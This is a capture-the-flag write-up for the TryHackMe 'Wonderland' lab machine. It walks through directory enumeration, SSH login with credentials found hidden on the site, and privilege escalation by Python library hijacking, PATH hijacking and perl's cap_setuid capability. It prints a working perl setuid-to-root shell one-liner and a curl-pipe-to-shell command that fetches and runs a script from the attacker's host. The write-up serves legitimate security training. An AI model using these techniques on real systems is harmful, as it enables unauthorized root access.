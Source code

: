 # TryHackMe - Wonderland

https://tryhackme.com/room/wonderland

Topics cover in this room:
- Python module manipulation
- PATH variable environment
- Capabilities

### Recon and Enumeration

```bash
nmap -sC -sV 10.10.243.9 # Change this to IP given
```

  ![nmap-scan](img\nmap-scan.png)

We found port `80`, lets run `gobuster` to enumerate directory in the website
```bash
gobuster dir -w /opt/common.txt -u 10.10.243.9 
# Change this to IP given
# your wordlist may be different
```
While gobuster is scanning, lets open browser to see what the website has
  
  ![web-manual-hunt-1](img\web-manual-hunt-1.png)


Nothing, lets see the source page. Hit `Ctrl+U` if you are using Firefox
  ![\web-manual-hunt-1-source-code](img\web-manual-hunt-1-source-code.png)

Same. Lets see if our gobuster found something
  ![gobuster-scan.png](img\gobuster-scan.png)

`/r`, interesting. Lets see what in there. Type `IP_OF_MACHINE/r`
  ![web-manual-hunt-2.png](img\web-manual-hunt-2.png)
Hmm, maybe we should follow *rabbit*? Lets try access all directory with spelling rabbit. The syntax should be
1. `IP_OF_MACHINE/r`
2. `IP_OF_MACHINE/r/a`
3. `IP_OF_MACHINE/r/a/b`
4. `IP_OF_MACHINE/r/a/b/b`
5. `IP_OF_MACHINE/r/a/b/b/i`
6. `IP_OF_MACHINE/r/a/b/b/i`
7. `IP_OF_MACHINE/r/a/b/b/i/t`
  ![web-manual-hunt-end.png](img\ web-manual-hunt-end.png)


Have get ourself into the *rabbit hole*? Lets we check the source code of the page. Hit `Ctrl+U` if you are using firefox
  ![web-manual-hunt-end-source-page.png](img\web-manual-hunt-end-source-page.png) 
We know from Nmap scan, we have port `22` open which we can SSH into the machine. And we found something that was hidden that may have been credential. Lets SSH into the machine with this info
```bash
ssh alice@IP
```
  ![ssh-alice.png](img\ssh-alice.png) 
***WE ARE IN***

### Alice

Lets see what `alice`
  ![alice-directory.png](img\alice-directory.png) 

We have 2 interesting files called `root.txt` and a python file. Both can only be run as `root`.

Lets see what `sudo` command our `alice` can run
![alice-sudo.png](img\alice-sudo.png) 

So, `alice` can run the python command only as a username `rabbit`. Lets run it
  ![alice-py.png](img\alice-py.png) 

We got some poem, lets see what is this python script does. Use `nano walrus_and_the_carpenter.py`
  ![alice-py-sc-1.png](img\alice-py-sc-1.png) 
  ![alice-py-sc-2.png](img\alice-py-sc-2.png) 

So, the scripts run a `for` loop where it will randomly split the poem and print in 10 times using `random` library.

If we check python library path configuration using `python3 -c 'import sys; print(sys.path)'` we will see that the very first thing python will check is current directory where the script is run(mark by `['',` )
  ![alice-py-lib-src.png](img\alice-py-lib-src.png) 

What that mean is, we can create a new python file named `random.py` containing some exploit code where `walrus_and_the_carpenter.py` will use it as the library, since current directory is the very first the script will check. More in [here](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)

Make a new file call `random.py` with `nano` or `vim` and type code bellow
  ![random-py-exploit.png](img\random-py-exploit.png) 

Now if we run the `sudo rabbit` command earlier, we will now will switch to user `rabbit`
  ![rabbit-shell.png](img\rabbit-shell.png) 

### Rabbit

Neat, lets see what we have in `rabbit` directory.
  ![rabbit-directory.png](img\rabbit-directory.png)
 
Running `file teaParty` will tell us what is this file. It is a binary file. Running it with `./teaParty` wont tell us much info
  ![teaParty](img\teaParty.png)

Usually with binary file, we can use `strings` to see what piece of string that is in the file. But since there is no `strings` in our machine we will use `less`. Run `less teaParty`. You will get bunch of text that very confusing, its because we try to open binary file as a text. But there are strings that readable, that what we wanted. Scroll down long enough you will find strings that look similiar when we run `./teaParty`
  ![teaParty-string](img\teaParty-string.png)

What this binary will do if it run, it will dispay text `Welcome to the tea party! The Mad Hatter will be here soon.` and then date that is `echo` from the variable `date` in the system (in our case its our machine). Hence why when we run the file, we get estimated time +1 hour from our machine. 

If you look closely there are 2 variable that this binary use. `echo` and `date`. `echo` is set to run using PATH from `bin/echo`, but there is no rule for where this `date` variable should run from. We can create our own `date.sh` containing our payload as the PATH preferance for binary to run. So lets do this!

> More on explained of PATH is [here](https://linuxconfig.org/linux-path-environment-variable) and for [this exploit](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93) it self

Make a new path on `/tmp` with command `export PATH=/tmp:$PATH` and confirm it with `echo $PATH`. If done correctly we can see that `/tmp` is in front.

> Why on `/tmp` you may ask? Most of the directory that own by `root` can only be access as `root` it self for some exception which `/tmp` is one of them, google this for more info.

Create a new shell script called `date` with `vim` or `nano` with code below
  ![date-exploit](img\date-exploit.png)

Change the mode of our `date` as executable wih `chmod +x /tmp/date` and run the binary again with `./teaParty`
  ![hatter-shell](img\hatter-shell.png)

There is explanation for this exploit, which I will try to explain the best as I can:

1. You may wondering, why we create our `date` on `/tmp` as suppose to in current directory? It because `teaParty` is own and can only edited by `root` which you can check with running command `ls -la`. Since we need to modify the `date` whome our `teaParty` use, hence we need to place it as in `root` only area, and `/tmp` is one of the place that own by `root` whose also can be access by any user. If you try to use in current directory, it wont work.

2. What the code in `date` does is simply spawn `bash` as suppose to complete the script. If we run `teaParty` normally, there is `ending` which the script is complete its job. Where after this exploit, instead of giving you and time estimation in the line after `Probably by` it spawn a `bash` shell.

So now we have `hatter` shell, we will go to `hatter` home directory. 
  ![hatter-pass](img\hatter-pass.png)

Go ahead to `cat` the password and lets switch to `hatter` user, since we technically are not fully `hatter`
  ![su-hatter](img\su-hatter.png)

### Hatter

All we have is just `password.txt`, and nothing else. What we do now? Well lets use enumeration tool, `[linpeas]`(https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Download the file and put it in your machine. Start web simple httpserver by `python3 -m http.server 80` on where `linpeas.sh` is located. Open a new terminal and type in `ifconfig` and save/write `tun0` IP somewhere

On target machine, type in `curl tun0_IP/linpeas.sh | sh | tee linlog.txt`. What this command does is it will download `linpeas.sh` in our mahcine and run it as well as save it as `linlog.txt`

As you notice, it really slow to navigating the target machine. And there are a lot of information that `linlog.txt` has so we want to copy `linlog.txt` form target machine to our machine. Use `scp hatter@10.10.243.9:/home/hatter/linlog.txt .` and once completed, open it on your machine with `less -r linlog.txt` and press `y`

This part require you to have some knowledge of linux privilege escalation vector. Usually if this is beginner room, you will see right away the vector by finding **orange** color.

Running `sudo -l` confirming that `hatter` dont have access to `sudo`. Right now, the best we can do is to check anythng that `linpeas` has mark with **red** color. One of way to check is to use [GTFOBins](https://gtfobins.github.io/) as well as read the link that `linpeas.sh` gave.

To make it short we will use whats in `capabilities`. Quoting from book.hacktricks.xyz it self
> Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.

In short: `capabilities` is a way to make a exception for non priviledge user to run important task like most of networking stuff which `root` is the one who capable as `root` is priviledge user. There are a lot of vector we can use, but `linpeas` told us we can use `cap_setuid` of `perl`. Read more [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#capabilities).
  ![capabilites](img\capabilities.png)

Type in `which perl` to find where is the perl executable is located, and head over to [GTFOBins](https://gtfobins.github.io/) and find `Perl` section

On the very bottom, we see `Capabilities` section. We only need some of the code, so use command `/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'`.
  ![perl-to-bash](img\perl-to-bash.png)
> NOTE: `/bin/sh` is change to `/bin/bash` because we want `bash` to spawn, not `sh`

And now you are `root`. Since you are root, you can go to `alice` directory to get `root.txt` and go to `/root` directory to get `user.txt`
